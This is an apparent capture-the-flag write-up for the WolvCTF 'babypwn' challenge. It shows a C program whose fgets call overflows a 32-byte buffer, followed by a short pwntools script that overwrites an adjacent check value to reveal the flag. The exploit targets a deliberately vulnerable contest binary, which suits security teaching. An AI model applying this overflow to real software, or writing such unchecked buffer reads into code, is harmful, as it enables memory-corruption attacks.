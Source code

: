 # babypwn

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

***

## Solution

Just a simple and easy pwn challenge.

Given a C source code.

<pre class="language-c" data-title="babypwn.c" data-line-numbers><code class="lang-c">#include &#x3C;stdio.h>
#include &#x3C;string.h>
#include &#x3C;unistd.h>

<strong>struct __attribute__((__packed__)) data {
</strong>  char buff[32];
  int check;
};

void ignore(void)
{
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
}

void get_flag(void)
{
  char flag[1024] = { 0 };
  FILE *fp = fopen("flag.txt", "r");
  fgets(flag, 1023, fp);
  printf(flag);
}

int main(void) 
{
  struct data name;
  ignore(); /* ignore this function */

  printf("What's your name?\n");
  fgets(name.buff, 64, stdin);
  sleep(2);
  printf("%s nice to meet you!\n", name.buff);
  sleep(2);
  printf("Binary exploitation is the best!\n");
  sleep(2);
  printf("Memory unsafe languages rely on coders to not make mistakes.\n");
  sleep(2);
  printf("But I don't worry, I write perfect code :)\n");
  sleep(2);

<strong>  if (name.check == 0x41414141) {
</strong>    get_flag();
  }

  return 0;
}

</code></pre>

The program wants us to input a name. Line 41 shows that `if (name.check == 0x41414141)` is true, it will reveal a flag. So basically we need to input 0x41414141, but the function at line 5 says that it has a 32 size of buffer. We need to fill up the buffer first, than put 0x41414141, combine them as one payload as the script below.

{% code title="solve.py" lineNumbers="true" %}
```python
from pwn import *

rem = remote('babypwn.wolvctf.io', 1337)
payload = b'A' * 32 + p32(0x41414141)

rem.sendline(payload)

print(rem.recvall().decode())
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Flag

wctf{pwn\_1s\_th3\_best\_Categ0ry!}
